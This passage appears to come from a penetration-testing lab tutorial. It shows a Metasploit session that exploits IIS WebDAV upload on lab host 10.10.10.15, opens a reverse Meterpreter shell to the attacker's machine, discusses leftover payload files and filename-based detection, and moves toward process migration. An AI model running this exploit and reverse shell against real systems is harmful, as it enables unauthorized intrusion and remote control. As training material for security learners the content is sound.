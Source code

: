 ```shell-session
   Id  Name
   --  ----
   0   Automatic
```

We proceed to set the needed parameters. For now, these would be `LHOST`and `RHOST` as everything else on the target seems to be running the default configuration.

**MSF - Configuring Exploit & Payload**

Meterpreter

```shell-session
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOST 10.10.10.15

RHOST => 10.10.10.15


msf6 exploit(windows/iis/iis_webdav_upload_asp) > set LHOST tun0

LHOST => tun0


msf6 exploit(windows/iis/iis_webdav_upload_asp) > run

[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Checking /metasploit28857905.asp
[*] Uploading 612435 bytes to /metasploit28857905.txt...
[*] Moving /metasploit28857905.txt to /metasploit28857905.asp...
[*] Executing /metasploit28857905.asp...
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Deleting /metasploit28857905.asp (this doesn't always work)...
[!] Deletion failed on /metasploit28857905.asp [403 Forbidden]
[*] Meterpreter session 1 opened (10.10.14.26:4444 -> 10.10.10.15:1030) at 2020-09-03 10:10:21 +0000

meterpreter > 
```

We have our Meterpreter shell. However, take a close look at the output above. We can see a `.asp` file named `metasploit28857905` exists on the target system at this very moment. Once the Meterpreter shell is obtained, as mentioned before, it will reside within memory. Therefore, the file is not needed, and removal was attempted by `msfconsole`, which failed due to access permissions. Leaving traces like these is not beneficial to the attacker and creates a huge liability.

From the sysadmin's perspective, finding files that match this name type or slight variations of it can prove beneficial to stopping an attack in the middle of its tracks. Targeting regex matches against filenames or signatures as above will not even allow an attacker to spawn a Meterpreter shell before being cut down by the correctly configured security measures.

We proceed further with our exploits. Upon attempting to see which user we are running on, we get an access denied message. We should try migrating our process to a user with more privilege.

**MSF - Meterpreter Migration**
